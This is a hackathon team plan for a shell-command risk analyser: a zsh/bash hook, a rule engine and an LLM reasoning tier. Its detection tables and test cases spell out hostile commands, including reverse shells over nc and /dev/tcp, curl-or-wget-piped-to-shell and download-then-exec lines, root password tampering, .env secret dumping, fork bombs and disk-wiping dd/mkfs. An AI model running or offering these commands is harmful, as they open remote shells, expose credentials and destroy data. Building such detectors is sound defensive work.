


# Team Work Division
## AI-Based System Intent Engine — CDAC Hackathon

> **13-day build plan. Three members. One submission.** This document is the canonical reference for who owns what, what each phase delivers, and what the cross-team dependencies are.

---

## Team Ownership Map



---

## The Interface Contract (Publish: Day 1)

> **All three members import from `engine/models.py`. Nobody redefines these.**

### What Goes In (Shell Hook → Daemon)

```python
AnalyzeRequest(
    context = CommandContext(
        command    = "rm -rf /var/log/*",  # raw string exactly as typed
        cwd        = "/home/user",
        user       = "testuser",
        is_sudo    = False,
        shell      = "zsh",
        session_id = "uuid-abc-123"
    ),
    dry_run = False
)
```

### What Comes Out (Daemon → Shell Hook)

```python
AnalyzeResponse(
    verdict = Verdict(
        risk_level                    = "HIGH",
        confidence                    = 0.94,
        matched_pattern               = "rm_rf_var_log",
        reasoning                     = "Deletes active log files...",
        impact_summary                = "Permanently removes system logs.",
        safer_alternative             = "sudo journalctl --vacuum-size=500M",
        safer_alternative_explanation = "Frees space without removing active logs.",
        tier_used                     = "rule_engine",
        latency_ms                    = 4.2
    ),
    should_block = True,
    session_id   = "uuid-abc-123"
)
```

**`should_block = True`** → Shell hook pauses and shows the confirmation UI.
**`should_block = False`** → Shell hook does nothing; command runs instantly.

---

## Infrastructure Team — Full Phase Breakdown

> **Role: System Architect + Shell Integration**
> **Domain: Everything that touches the OS, the terminal, and the daemon**

### Architectural Significance

The Infrastructure Team manages shell scripting, Unix sockets, and daemon management. The shell hook is also the **highest-risk** piece: if it breaks, the user can't type commands at all.

---

### Phase 1 · Days 1–2 · Shell Hook + Mock Daemon

**This phase unblocks the rest of the pipeline.**

| Deliverable | File | What It Does |
|---|---|---|
| Interface contract | `engine/models.py` | Finalize all Pydantic models — already done, review and lock |
| Mock daemon | `engine/daemon/server.py` | Hardcoded `/analyze` that always returns `should_block: false` |
| Zsh hook (pass-through) | `hooks/intent_hook.zsh` | Intercepts command, sends to daemon, gets response — no UI yet |
| Bash hook (pass-through) | `hooks/intent_hook.bash` | Same as above for Bash users |
| Unix socket binding | `engine/daemon/server.py` | Bind to `/tmp/intent_engine.sock` |
| Daemon auto-start | `scripts/install.sh` | `python3 -m engine.daemon.server &` at shell startup |
| `/health` endpoint | `engine/daemon/server.py` | Returns `{"status": "ok"}` — shell hook pings this at startup |

**Day 2 Acceptance Test:**
```bash
source ~/.zshrc
ls -la          # Should run instantly, no interruption
# Check daemon is alive:
curl --unix-socket /tmp/intent_engine.sock http://localhost/health
# Expected: {"status": "ok", "pid": 12345}
```

**Immediately share across teams:**
- The `AnalyzeRequest` / `AnalyzeResponse` JSON examples above
- A running mock daemon for local testing

---

### Phase 2 · Days 3–5 · Real Daemon + Command Parser

**The brain of the system. This is the most architecturally important work.**

| Deliverable | File | Notes |
|---|---|---|
| `shlex` tokenizer | `engine/parser/command_parser.py` | Already scaffolded — implement `_parse_single()` and `_split_pipes()` |
| Pipe segment splitting | `engine/parser/command_parser.py` | `curl x.sh \| sh` → two `ParsedCommand` objects |
| Sudo detection + stripping | `engine/parser/command_parser.py` | `sudo -u root rm` → `is_sudo=True`, `base_command="rm"` |
| Glob detection | `engine/parser/command_parser.py` | `/var/log/*` → `is_glob=True`, `glob_patterns=["/var/log/*"]` |
| Subshell detection | `engine/parser/command_parser.py` | `$(curl ...)`, backtick forms |
| Redirect detection | `engine/parser/command_parser.py` | `>`, `>>`, `2>` |
| Tier router (real) | `engine/daemon/router.py` | Replace mock: call Rule Engine Team's `RuleEngineClassifier.classify()` |
| Latency logging | `engine/daemon/router.py` | Log `latency_ms` for every request |
| Session state | `engine/daemon/session.py` | Per-session `ALWAYS_ALLOW` decisions persist within terminal session |
| Audit log writer | `engine/daemon/server.py` | Write `AuditLogEntry` JSON to `~/.intent_engine/logs/YYYY-MM-DD.jsonl` |
| `/reload-rules` endpoint | `engine/daemon/server.py` | Hot-reload pattern library without daemon restart |
| `/stats` endpoint | `engine/daemon/server.py` | Return session command counts by risk level |

**Parser unit tests** you must write (already stubbed in `tests/unit/test_parser.py`):
- Simple command → correct `base_command`, `flags`, `arguments`
- Piped command → correct `pipe_segments` list
- Sudo → `is_sudo=True`, base command is NOT `sudo`
- Glob → `is_glob=True`, pattern in `glob_patterns`
- Subshell `$()` → `has_subshell=True`
- Redirect `>` → `has_redirect=True`
- Fork bomb syntax → doesn't crash the parser

---

### Phase 3 · Days 6–8 · Session Features + Config

| Deliverable | File | Notes |
|---|---|---|
| Personal allowlist | `engine/daemon/session.py` | `ALWAYS_ALLOW` action → adds pattern to `~/.intent_engine/allowlist.toml` |
| Session allowlist | `engine/daemon/session.py` | In-memory allowlist that resets when shell closes |
| `ALWAYS_DENY` list | `engine/daemon/router.py` | Checked before any tier — instant `CRITICAL` |
| Dry-run flag detection | `engine/parser/command_parser.py` | `--dry-run`, `-n`, `--no-act` → set `is_dry_run=True` |
| Dry-run mode | `engine/daemon/router.py` | If `dry_run=true` in config or request → analyze but never set `should_block=true` |
| Emergency bypass | `hooks/intent_hook.zsh` + `.bash` | `INTENT_ENGINE_SKIP=1 <cmd>` → skip analysis for one command |
| Daemon auto-deactivation | `hooks/intent_hook.zsh` + `.bash` | If daemon unreachable after 4s → warn once, deactivate silently for session |

---

### Phase 4 · Days 11–12 · Edge Case Hardening

This phase is driven by what is found in integration testing. The goal is to make the parser bulletproof against every real-world shell edge case.

**Edge cases to test and handle:**

| Edge Case | Example | What Parser Must Do |
|---|---|---|
| Semicolon chaining | `cd /; rm -rf *` | Split on `;`, analyze all segments, block if ANY is risky |
| `&&` chains | `ls /boot && rm -rf /boot` | Analyze second segment, block on dangerous right-hand side |
| `\|\|` false-positive | `ls /foo \|\| echo "missing"` | Don't flag as pipe — `\|\|` is logical OR, not pipe |
| Nested sudo | `sudo bash -c "rm -rf /"` | The actual command is the `-c` argument — parse it |
| Heredoc redirect | `cat << EOF > /etc/hosts` | Flag redirect to system file |
| Backtick subshell | `` chmod 777 `cat paths.txt` `` | `has_subshell=True` |
| Alias expansion | `alias rm='rm -i'` — don't let alias fool the parser | Resolve alias before sending to rule engine |
| Environment variable commands | `CMD=rm; $CMD -rf /` | This is a stretch goal — flag `$VARIABLE` commands as AMBIGUOUS |

---

### Phase 5 · Day 13 · Demo + Final Testing

| Task | What |
|---|---|
| Run dangerous corpus | `cat tests/fixtures/dangerous_commands.txt` — all 40+ must be caught |
| Run safe corpus | `cat tests/fixtures/safe_commands.txt` — zero false positives |
| Latency audit | `SAFE < 20ms`, `RISKY rule < 50ms`, `LLM < 3.5s` — document results |
| Demo script | 6-scenario terminal demo (see `docs/DEMO_SCRIPT.md`) |
| `git tag v1.0.0-hackathon` | Final tagged release |

---

## Rule Engine Team — Full Phase Breakdown

> **Role: Rule Engine + Verdict API**
> **Domain: `engine/rule_engine/` + `rules/dangerous_patterns.toml`**

### Design Principles

The Rule Engine is built similarly to a hybrid rule-filter + contextual classifier that categorizes inputs into risk levels. This is the architecture for Tier 0/1:

| Classifier Component | Intent Engine Equivalent |
|---|---|
| Rule-based filter (keyword matching) | Tier 0 patterns (fork bomb, rm -rf /) |
| Contextual model | Tier 1 pattern + context weighting |
| FastAPI backend serving predictions | FastAPI verdict service (`engine/rule_engine/service.py`) |
| Confidence score | `Verdict.confidence` (0.0–1.0) |

---

### Phase 1 · Days 1–2 · Study + Setup

- Clone repo, `pip install -e ".[dev]"`
- Study `engine/models.py` — especially `ParsedCommand` (input) and `Verdict` (output)
- Study `engine/rule_engine/classifier.py` — implement `classify()` method body
- Study `rules/dangerous_patterns.toml` — the TOML format the pattern library uses
- Run existing parser tests to understand `ParsedCommand` structure: `pytest tests/unit/test_parser.py`

---

### Phase 2 · Days 3–5 · Tier 0 + Tier 1 Implementation

#### Tier 0 — `check_tier0()` in `pattern_matcher.py`

These are **100%-confidence, zero-ambiguity catches**. Never returns `AMBIGUOUS`. Returns a `Verdict` directly.

| Pattern | Detection Logic |
|---|---|
| Fork bomb | Regex on raw command: `:(){ :|:&` variants |
| `rm -rf /` | base_command=rm, flags contain `-r` AND `-f`, arguments contain `/` or `/*` |
| `dd of=/dev/sd*` | base_command=dd, any argument matches `of=/dev/sd[a-z]` |
| `mkfs.*` on device | base_command starts with `mkfs`, argument matches `/dev/...` |
| `curl/wget \| sh/bash` | `has_pipe=True`, pipe_segments[-1].base_command in `{sh, bash}`, first segment is curl/wget |

#### Tier 1 — `match()` in `pattern_matcher.py`

Iterate all compiled patterns. For each match, compute confidence:

```
Base score (regex match):           0.70
+ sudo used:                       +0.15
+ target is root-level path:       +0.10
+ command uses glob (*):           +0.08
- target is /tmp:                  -0.15
- --dry-run / -n flag present:     -0.20
- user is root (already elevated): -0.05
```

Return the **highest-confidence match**. If no match scores ≥ 0.55, return `AMBIGUOUS`.

#### Patterns to add (beyond what's pre-written in the TOML):

| Category | Command Examples |
|---|---|
| Cron manipulation | `crontab -r`, `rm /etc/cron.d/*` |
| Passwd / shadow editing | `echo 'root::0:...' >> /etc/passwd` |
| Firewall teardown | `iptables -F`, `ufw disable`, `systemctl stop firewalld` |
| Kernel panic / sysrq | `echo b > /proc/sysrq-trigger` |
| SSH weakening | `chmod 777 ~/.ssh`, `cat /dev/null > ~/.ssh/authorized_keys` |
| Reverse shell | `nc -e /bin/bash <ip> <port>`, `bash -i >& /dev/tcp/...` |
| History erasure | `history -c && rm ~/.bash_history` |
| Bootloader manipulation | `grub-install /dev/sda` without context |
| World-writable sudoers | `chmod o+w /etc/sudoers` |
| Package pipe install | `pip install` piped from curl |

---

### Phase 3 · Days 6–8 · Standalone Verdict Service + Calibration

- Create `engine/rule_engine/service.py` — standalone FastAPI app at `/classify`
- Run all 40+ commands from `tests/fixtures/dangerous_commands.txt` — **100% must be caught**
- Run all 40+ safe commands — **zero false positives allowed**
- Tune confidence thresholds so the AMBIGUOUS escalation rate is ~5% (not 30%)

---

### Phase 4 · Days 9–12 · Integration + Edge Cases

- Rule Engine Team integrates with Infrastructure Team's real daemon (replace mock)
- Infrastructure Team feeds Rule Engine Team edge cases from shell hook testing → Rule Engine Team adds patterns
- Final coverage target: `pytest --cov=engine/rule_engine` → **90%+**

---

## AI Reasoning Team — Full Phase Breakdown

> **Role: LLM Reasoning Tier + Safer Alternatives**
> **Domain: `engine/llm/`**

### Design Principles

NEXUS-AI performs: planning → tool selection → execution → reflection → validation → human-in-loop approval. The Intent Engine's LLM tier is a **focused, time-constrained version** of exactly that pipeline for a single command:

| Component | Intent Engine LLM Tier |
|---|---|
| Multi-step task planning | `PromptBuilder.build_analysis_prompt()` |
| Multi-provider LLM | `LLMClientFactory` → Ollama / Gemini / OpenAI |
| Reflection + validation | Optional second-pass prompt if confidence < 0.7 |
| Human-in-loop approval | Confirmation UI (`y/n/e/s`) — Infrastructure Team's layer |
| Tool selection | `SaferAlternativeSuggester` |

---

### Phase 1 · Days 1–2 · Study + Ollama Setup

- Study `engine/models.py` — especially `Verdict` (expected return schema)
- Study `engine/llm/reasoner.py` — implement the `reason()` body
- Study `engine/llm/prompt_builder.py` — system prompt tuning
- Run `ResponseParser` tests (already written): `pytest tests/unit/test_llm_client.py -k TestResponseParser`
- Install and test Ollama: `ollama pull llama3.2:3b && ollama serve`

---

### Phase 2 · Days 3–5 · LLM Providers

- Verify `OllamaClient.complete()` works — add error handling for connection refused
- Wire `GeminiClient` with `INTENT_GEMINI_API_KEY` env var
- Implement `OpenAIClient` in `engine/llm/providers/openai.py` (same pattern as Gemini)
- Test fallback: `ollama stop` → engine must fall back to Gemini automatically
- Test timeout: mock a 5s LLM response → verify `TimeoutError` raised at 3s

---

### Phase 3 · Days 6–8 · Core Reasoner

**The most important output AI Reasoning Team produces: `reason()` returns a definitive, non-AMBIGUOUS `Verdict` for every command sent to it.**

Key decisions:
- **Model choice:** `llama3.2:3b` (fast, good enough) vs `qwen2.5:3b` (better reasoning, slightly slower) — AI Reasoning Team decides based on testing
- **Reflection pass:** If confidence < 0.70, re-prompt with: *"You said X, but reconsider: [critique]. Update your assessment."* — adds ~1s but improves accuracy for edge cases
- **Never return AMBIGUOUS** — the `ResponseParser` will reject it; force a definitive level

**Ambiguous commands AI Reasoning Team must handle correctly:**

| Command | Expected | Why Hard |
|---|---|---|
| `find /tmp -name "*.bak" -delete` | LOW-MEDIUM | Scoped to /tmp, temp files |
| `chmod -R 755 /var/www/html` | LOW | Appropriate web permissions |
| `rm -rf /home/user/old_project` | MEDIUM | User data, non-system |
| `wget http://... -O /tmp/s.sh && bash /tmp/s.sh` | HIGH | Download-then-exec |
| `find /home -name ".env" -exec cat {} \;` | MEDIUM | Exposes secrets |

---

### Phase 4 · Days 9–10 · Safer Alternative Suggester

Implement `suggest()` in `engine/llm/suggester.py`:

1. **Phase 1 (fast):** Check `_ALTERNATIVES_TABLE` by resolving a lookup key from `parsed.base_command` + flags + path
2. **Phase 2 (LLM):** If no table entry, build a focused prompt: *"Give me a safer alternative to: `{command}`. Output only the safer command, no explanation."*

Write `tests/unit/test_suggester.py` — every table entry has a test.

---

## Cross-Team Dependencies



---

## Latency Budget (Hard Constraints)

| Code Path | Max Latency | Failure = |
|---|---|---|
| SAFE command (no block) | **< 20ms** | User notices lag on every command |
| RISKY — Tier 0 (rule, instant) | **< 30ms** | Annoyingly slow |
| RISKY — Tier 1 (rule, full scan) | **< 50ms** | Acceptable |
| AMBIGUOUS → LLM | **< 3.5s** | User waits too long, loses trust |
| LLM timeout fallback | **< 20ms** | In-memory fallback, no I/O |

---

## Additional Features Added to Plan

These were gaps in the original proposal — all now included:

| Feature | Owner | Day |
|---|---|---|
| Personal allowlist (`ALWAYS_ALLOW`) | Infrastructure Team | 6–7 |
| Session-level allowlist (resets on close) | Infrastructure Team | 6 |
| `ALWAYS_DENY` list in config | Infrastructure Team | 7 |
| Structured audit log (`.jsonl`) | Infrastructure Team | 6 |
| Hot-reload pattern library | Infrastructure Team + Rule Engine Team | 7 |
| Dry-run mode (analyze, never block) | Infrastructure Team | 8 |
| `--dry-run` flag reduces risk score | Infrastructure Team (parser) + Rule Engine Team (confidence) | 5 |
| Emergency bypass (`INTENT_ENGINE_SKIP=1`) | Infrastructure Team | 8 |
| History-aware context (last N commands) | Infrastructure Team + AI Reasoning Team | 12 (stretch) |
| LLM reflection pass (second-prompt) | AI Reasoning Team | 7 |
| Session stats (`/stats` endpoint) | Infrastructure Team | 7 |

---

## 13-Day Master Timeline

```mermaid
gantt
    title AI Intent Engine — 13-Day Build Plan
    dateFormat  YYYY-MM-DD
    axisFormat  Day %d

    section Infrastructure Team
    Models + mock daemon + Zsh hook     :h1, 2026-08-01, 2d
    Bash hook + socket + /health        :h2, after h1, 1d
    Command parser (shlex, sudo, globs) :h3, after h2, 1d
    Pipe splitter + subshell/redirect   :h4, after h3, 1d
    Tier router (real) + latency        :h5, after h4, 1d
    Session state + allowlist + audit   :h6, after h5, 1d
    reload-rules + /stats + hot-reload  :h7, after h6, 1d
    Dry-run + ALWAYS_DENY + bypass      :h8, after h7, 1d
    Integration: Rule Engine            :crit, h9, after h8, 1d
    Integration: LLM Tier               :crit, h10, after h9, 1d
    Edge cases: ; && nested sudo        :h11, after h10, 1d
    UI polish + latency audit           :h12, after h11, 1d
    Full test suite + demo + tag        :milestone, h13, after h12, 1d

    section Rule Engine Team
    Study + environment setup           :p1, 2026-08-01, 2d
    Tier 0: dd, mkfs, curl pipe         :p2, after p1, 1d
    Tier 1: rm variants, chmod          :p3, after p2, 1d
    Tier 1: network/cron/firewall       :p4, after p3, 1d
    Standalone verdict service          :p5, after p4, 1d
    Confidence calibration              :p6, after p5, 1d
    Pattern library docs                :p7, after p6, 1d
    Integration + gap fixes             :crit, p8, after p7, 1d
    Final coverage review               :p9, after p8, 3d
    Add edge case patterns              :p10, after p9, 1d
    Final pattern coverage              :milestone, p11, after p10, 1d

    section AI Reasoning Team
    Study + Ollama setup                :v1, 2026-08-01, 2d
    OllamaClient + GeminiClient         :v2, after v1, 1d
    OpenAI provider + fallback          :v3, after v2, 1d
    Timeout tests + reasoner start      :v4, after v3, 1d
    Core reason() pipeline              :v5, after v4, 1d
    Prompt tuning + reflection          :v6, after v5, 1d
    Ambiguous corpus testing            :v7, after v6, 1d
    Suggester Phase 1 (table)           :v8, after v7, 1d
    Suggester Phase 2 + integration     :crit, v9, after v8, 1d
    LLM edge case context               :v10, after v9, 2d
    Final suggestion quality review     :milestone, v11, after v10, 1d
```

| Day | Infrastructure Team | Rule Engine Team | AI Reasoning Team |
|---|---|---|---|
| 1 | Models contract + mock daemon + zsh hook (pass-through) | Study contract + setup | Study contract + Ollama setup |
| 2 | Bash hook + daemon socket + `/health` | Tier 0 patterns start | `ResponseParser` tests pass |
| 3 | Command parser (shlex, sudo, globs) | Tier 0: dd, mkfs, curl\|sh | OllamaClient + GeminiClient |
| 4 | Pipe splitter + subshell/redirect detection | Tier 1: rm variants, chmod | OpenAI provider + fallback |
| 5 | Tier router (real, not mock) + latency harness | Tier 1: network/cron/firewall | Timeout tests + reasoner start |
| 6 | Session state + allowlist + audit logging | Standalone verdict service | Core `reason()` pipeline |
| 7 | `/reload-rules` + `/stats` + hot-reload | Confidence calibration | Prompt tuning + reflection pass |
| 8 | Dry-run + ALWAYS_DENY + emergency bypass | Pattern library docs | Ambiguous corpus testing |
| 9 | **Integration: plug in Rule Engine Team's rule engine** | Integration + gap fixes | Suggester Phase 1 (table) |
| 10 | **Integration: plug in AI Reasoning Team's LLM tier** | Final coverage review | Suggester Phase 2 + integration |
| 11 | Edge cases: `;`, `&&`, nested sudo, heredoc | Add patterns from edge cases | Add LLM context for edge cases |
| 12 | Confirmation UI polish + latency audit | Final pattern coverage | Final suggestion quality review |
| 13 | **ALL**: Full test suite + demo script + README + `git tag v1.0.0-hackathon` | | |
